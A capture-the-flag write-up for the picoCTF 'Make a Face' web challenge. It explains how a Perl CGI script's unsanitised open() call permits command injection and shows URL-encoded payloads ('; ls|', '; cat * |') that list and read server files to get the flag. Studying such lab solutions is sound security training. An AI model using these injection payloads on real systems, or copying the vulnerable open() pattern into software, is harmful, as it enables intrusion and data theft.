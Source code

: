 ## Make a Face - 100 (Web Exploitation)
####writeup by Oksisane

### Problem

It looks like Daedalus is working on a new project to generate digital avatars for use online. After taking a look, at their site: http://makeaface.picoctf.com/ it seems like there is a pretty good chance the project isn't completed, and may have some bugs. This might be the break we've been looking for to get inside their network.

### Hint

Making a face is cool, but making a shell is even better

## Answer


### Overview

Exploit Perl's [open](http://perldoc.perl.org/functions/open.html) command to run shell commands and `cat *` to print the contents of the flag.

### Details
Opening the source of `http://makeaface.picoctf.com/` we can see the perl source used to create the page (reproduced below):
```perl
#!/usr/bin/perl

use CGI;

$q = new CGI;
if (defined($q->param('Head'))) {
  print $q->header(-type=>'image/bmp');
  open(HEAD,"head".$q->param('Head'));
  open(HAIR,"hair".$q->param('Hair'));
  open(NOSE,"nose".$q->param('Nose'));
  open(MOUTH,"mouth".$q->param('Mouth'));
  open(EYES,"eyes".$q->param('Eyes'));

  while (read(HEAD,$headb,1)) {
    read(HAIR,$hairb,1);
    read(NOSE,$noseb,1);
    read(MOUTH,$mouthb,1);
    read(EYES,$eyesb,1);
    print (chr (ord($headb)&ord($hairb)&ord($noseb)&ord($mouthb)&ord($eyesb)));
  }
}
```
The `else` part of this code just performs initial page setup, so we can ignore it. Looking closer at the source we can see that the `open` function is called on on the user's selection of face components. To figure out how these are being sent to the script, we go back to the source of http://makeaface.picoctf.com/ where we find `js.js` (partially reproduced below).
```js

function loadImage() {
  var head = document.getElementsByName("Head")[0];
  var hair = document.getElementsByName("Hair")[0];
  var nose = document.getElementsByName("Nose")[0];
  var mouth = document.getElementsByName("Mouth")[0];
  var eyes = document.getElementsByName("Eyes")[0];
  var loading = document.querySelector("video");
  var canvas = document.querySelector("canvas")
  canvas.width = 256;
  canvas.height = 256;
  var context = canvas.getContext('2d');
  var image = new Image();
  image.src = "index.cgi?Head="+head.value+".bmp&Hair="+hair.value+".bmp&Nose="+nose.value+".bmp&Mouth="+mouth.value+".bmp&Eyes="+eyes.value+".bmp";
  loading.play();
  var i = setInterval(draw,20,loading,context);

  setTimeout(function(){clearInterval(i);context.drawImage(image,0,0);},wait);
  wait -= 200;
}
```
This load image function simply makes a request to the server in the format `<selection>.bmp` for each face component. For example, one valid component is `1.bmp`. At this point I am going to switch over to using [Postman](https://chrome.google.com/webstore/detail/postman-rest-client/fdmmgilgnpjigdojojpjoooidkmcomcm?hl=en) a Chrome extension which makes sending requests to a server easy. Once you have postman installed, browse to `chrome://apps` and click on Postman to open it. Fill out the settings as shown below (where the url is `http://makeaface.picoctf.com/index.cgi`):

<img src="makeafacecap1.JPG"/>

Now that we can send POST requests to the server and recieve the responses, we need to figure out how to exploit this. As noted earlier, our input is being passed to the perl `open` function. A little googling [reveals](http://www.cgisecurity.com/lib/sips.html) that this is a big security issue. By appending a `|` to the end of our post request, whatever we send to the server will be executed as a shell command and the result will be sent back inside the image file! Let's try it in Postman (shown below):

<img src="makeafacecap2.JPG"/>

Huh, that didn't work. Let's look back at the Perl line that interprets our input.
```perl
open(HEAD,"head".$q->param('Head'));
```
In our case, the open function would look like `headls |` and the server would try to run the `headls command` instead of the `ls` command. To fix this we add a `;` to the the start of our post request, so that the command executed by the server is `head; ls;`. Our full exploit is now `; ls|`.The postman request now looks like this:
<img src="makeafacecap3.JPG"/>

Weird, that still didn't work. Since we are using special characters such as `|` and `;` we need to [URL Encode](http://www.w3schools.com/tags/ref_urlencode.asp) them. [This Tool](http://meyerweb.com/eric/tools/dencoder/) works well. When we input our string, `;ls |` we get `%3Bls%20%7C`. Also, since the first line of the perl script is
```perl
print $q->header(-type=>'image/bmp');
```
our browser thinks the resulting data is an image, not text. To fix this we simply download the image resulting from our post request (right click - save as) and open the downloaded file in a text editor. Puting all those fixes together, we get this postman request:
<img src="makeafacecap4.JPG"/>

opening it gives us the text
```

head4.bmp
index.cgi
js.js
mouth1.bmp
mouth2.bmp
mouth3.bmp
nose1.bmp
nose2.bmp
nose3.bmp
```
but the file seems a bit malformed (with a bunch of NULLs at the start). Looking back at the perl script we see this line

```perl
print (chr (ord($headb)&ord($hairb)&ord($noseb)&ord($mouthb)&ord($eyesb)));
```
preforms a binary AND on all of the inputs. To get around this we simply set each input to our exploit instead of just the Head value:
<img src="makeafacecap5.JPG"/>

Which reveals the text
```
SECRET_KEY_2b609783951a8665d8c67d721b52b0f8
css.css
eyes1.bmp
eyes2.bmp
eyes3.bmp
eyes4.bmp
hair0.bmp
hair1.bmp
hair2.bmp
head1.bmp
head2.bmp
head3.bmp
head4.bmp
index.cgi
js.js
mouth1.bmp
mouth2.bmp
mouth3.bmp
nose1.bmp
nose2.bmp
nose3.bmp
```.
Now let's send another request to read the `SECRET_KEY_2b609783951a8665d8c67d721b52b0f8` file. By using the command `cat *` we can print out the contents of any file in the directory. So we set our command to `; cat * |`, which is `%3B%20cat%20*%7C` urlencoded.
<img src="makeafacecap6.JPG"/>.

Downloading and opening the `bmp` with a text editor reveals the flag!
### Flag
why_did_we_stop_using_perl_again?
